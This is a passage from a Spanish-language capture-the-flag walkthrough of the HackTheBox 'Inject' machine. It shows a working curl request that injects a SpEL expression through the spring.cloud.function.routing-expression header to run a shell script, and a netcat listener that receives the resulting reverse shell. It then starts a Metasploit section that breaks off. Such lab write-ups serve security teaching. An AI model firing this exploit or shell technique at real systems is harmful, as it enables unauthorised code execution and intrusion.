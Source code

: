 ```bash
{"timestamp":"2023-04-04T19:26:55.630+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}#                                                                                                                                                
```
Lo ejecutamos
```bash
❯ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/pwned.sh")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/pwned.sh")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Tue, 04 Apr 2023 19:33:45 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-04-04T19:33:45.482+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}#                                                                                                                                                

```

Nos llega la shell.

```
❯ nc -lvnp 443
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.83] from (UNKNOWN) [10.10.11.204] 34776
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ 
```


### Explotación con MetaSploit

Nos abrimos metasploit

```
msfconsole
```
Usando de apoyo este [foro](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/spring_cloud_function_spel_injection) nos guiaremos. Una vez dentro de metasploit  haremos lo siguiente.
